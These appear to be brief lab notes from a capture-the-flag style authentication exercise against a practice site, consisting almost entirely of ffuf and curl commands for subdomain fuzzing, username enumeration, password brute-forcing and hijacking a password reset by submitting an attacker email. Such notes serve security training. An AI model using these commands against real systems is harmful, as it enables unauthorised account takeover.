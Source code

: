 ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.208.213 -fs {size}

```shell-session
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.208.213
```

same usernames check
```shell-session
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.5.155/customers/signup -mr "username already exists"
```

using valid_usernames.txt to brute force
```shell-session
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.5.155/customers/login -fc 200
```

curl 'http://10.10.5.155/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=azim@customer.acmeitsupport.thm'